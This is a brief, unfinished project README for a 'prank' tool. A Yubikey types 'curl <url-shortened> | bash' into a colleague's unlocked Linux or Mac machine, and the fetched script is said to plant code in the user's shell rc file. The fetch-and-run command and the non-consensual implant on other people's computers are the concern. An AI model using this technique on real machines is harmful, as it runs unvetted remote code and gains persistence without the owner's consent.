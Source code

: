 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

** not yet finished, just here as a work in progress **

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl <url-shortened> | bash`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and then the shell used by the user and implant a fun prank into their shell rc.
